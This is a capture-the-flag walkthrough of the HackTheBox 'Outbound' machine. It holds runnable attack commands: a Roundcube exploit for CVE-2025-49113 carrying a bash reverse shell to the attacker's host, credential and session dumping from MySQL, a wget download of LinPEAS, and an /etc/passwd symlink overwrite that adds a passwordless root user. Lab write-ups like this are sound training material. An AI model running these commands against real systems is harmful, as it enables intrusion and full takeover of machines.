

````mdx
---
title: "OutBound HacktheBox Walkthrough"
date: "Jul 28, 2025"
---

Once we got our VPN up with:

```bash
sudo openvpn outbound.ovpn
````

we poked at the box with:

```bash
nmap -sC -sV -oN scan.txt 10.10.11.77
```


and saw ports **22** (SSH) and **80** (HTTP) open.

In the browser, hitting `http://10.10.11.77` redirected us to `mail.outbound.htb`—so we dropped:

```text
10.10.11.77  mail.outbound.htb
```

into `/etc/hosts` and reloaded the page. There it was: Roundcube webmail.

On the login page, we spotted credentials right in the prompt:

```text
tyler / LhKL1o9Nm3X2
```

We plugged them in, saw the Roundcube version, and realized it matched **CVE‑2025‑49113**. Cloning the exploit repo and firing it off with our listener ready gave us a shell as **www-data**:

```bash
# On your attacking machine:
nc -nlvp 4444

# On the target:
git clone https://github.com/fearsoff-org/CVE-2025-49113.git
cd CVE-2025-49113
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'"
```

Once we had a shell as **www-data**, we hunted down the Roundcube config:

```bash
find /var/www/html/roundcube -type f -name config.inc.php
cat /var/www/html/roundcube/config/config.inc.php
```

Inside, we found the DB creds:

```text
DB User: roundcube
DB Pass: RCDBPass2025
DB Name: roundcube
```

We logged into MySQL:

```bash
mysql -u roundcube -pRCDBPass2025 roundcube
SHOW TABLES;
SELECT * FROM session;
```

The session table held base64 blobs. We extracted the one for `jacob` and decoded it in CyberChef:

* **Decode**: Base64 → Hex
* **Decrypt**: Triple DES (DES-EDE3-CBC)

  * Key: `rcmail-!24ByteDESkey*Str`
  * IV: First 8 bytes of hex blob

Out popped **jacob’s** password.

Switching users:

```bash
su jacob
```

And SSH:

```bash
ssh jacob@10.10.11.77
```

We grabbed the **user flag**:

```bash
cat /home/jacob/user.txt
```

Next, we transferred LinPEAS:

```bash
# On our VM:
python3 -m http.server 80

# On the box:
wget http://<your_ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Checking sudo privileges:

```bash
sudo -l
```

Revealed a vulnerable binary: `/usr/bin/below`. We crafted a fake passwd entry:

```bash
echo 'tolu::0:0::/root:/bin/bash' > fakepass
rm -f /var/log/below/error_jacob.log
ln -s /etc/passwd /var/log/below/error_jacob.log
sudo /usr/bin/below
cp fakepass /var/log/below/error_jacob.log
su tolu
```

Instant root. Finally, the **root flag**:

```bash
cat /root/root.txt
```

---

**TL;DR:**

1. VPN → nmap → HTTP & SSH
2. hosts entry → login as Tyler → CVE‑2025‑49113 RCE → shell as www-data
3. config.inc.php → DB creds → dump sessions → decrypt Jacob’s password
4. SSH Jacob → user flag
5. LinPEAS → sudo vulnerability in `/usr/bin/below` → log‑file race → fake root user → root shell → root flag.

```
```
